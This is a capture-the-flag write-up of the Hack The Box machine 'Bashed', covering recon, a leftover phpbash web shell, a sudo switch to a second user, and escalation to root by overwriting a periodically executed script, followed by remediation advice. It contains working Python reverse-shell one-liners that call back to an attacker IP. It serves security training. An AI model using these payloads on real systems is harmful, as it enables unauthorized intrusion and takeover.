



# Bashed — Hack The Box

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Status** | ✅ Retired |
| **Key techniques** | Exposed webshell discovery, `sudo` rule to a secondary user, writable script executed by a privileged process |

---

## TL;DR

Bashed is a short chain built around finding things that were left where they
shouldn't be. Directory fuzzing turns up a fully functional web shell someone
else forgot to remove, giving instant code execution. From there, a broad
`sudo` rule allows switching to a second account, and a writable script owned
by that account — sitting where an automated process expects to find it —
provides the path to root.

---

## Recon & Enumeration

```bash
nmap -sC -sV -p- -T4 10.129.2.32
```



Only HTTP was open. The site itself was minimal, so directory brute-forcing
was the immediate next step:

```bash
gobuster dir -u http://10.129.2.32 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

---

## Foothold / Initial Access

The scan turned up **`phpbash`**, a minimal PHP web shell, already deployed
and reachable directly. This is the kind of finding that looks almost too
easy — but leftover debugging/admin tooling exposed on a production-style web
root is a very real class of real-world vulnerability, not just a lab
contrivance.



Browsing to it gave immediate command execution as `www-data`
and the user flag.

---

## Privilege Escalation

For a more stable shell than the web-based one, I dropped a Python reverse
shell:

```bash
nc -nlvp 443
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ATTACKER_IP>",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'
```

`sudo -l` showed `www-data` could run **any command** as a second user,
`scriptmanager`:

```bash
sudo -u scriptmanager /bin/bash
```



As `scriptmanager`, a `/scripts` directory held a Python file, `test.py`,
owned by `scriptmanager`, alongside a `test.txt` owned by `root` — a strong
signal that something running as `root` executes `test.py` periodically.
Since I owned that file, overwriting it with a reverse-shell payload and
waiting for the next execution window delivered a shell as root:

```bash
nc -lvnp 4242
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<ATTACKER_IP>\",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

Root flag retrieved.

---

## Lessons Learned

- **Exposed debugging/admin web shells are a real vulnerability class, not
  just a lab shortcut** — directory fuzzing should always include common
  webshell/tool names.
- **An overly broad `sudo` rule ("run anything as this other user") is
  functionally the same as being that user** — it should be scoped to
  specific commands wherever possible.
- **A file you can write, that something else executes on its own schedule,
  is a privilege escalation path regardless of how the scheduling works** —
  it doesn't need to be your own crontab.

---

## Remediation

- Remove all debugging/development tooling (web shells, admin panels) before
  any production-style deployment, and audit for it periodically.
- Scope `sudo` rules to exact commands/binaries, never a blanket
  `ALL` grant to switch users.
- Ensure any script executed by an automated or privileged process is owned
  and writable only by that same privilege tier — never by a lower-privileged
  account.

---

## Tools used

- `nmap`, `gobuster`
- phpbash
- Python reverse shell one-liner

---

**Machine:** [Hack The Box — Bashed](https://www.hackthebox.com/machines/bashed)
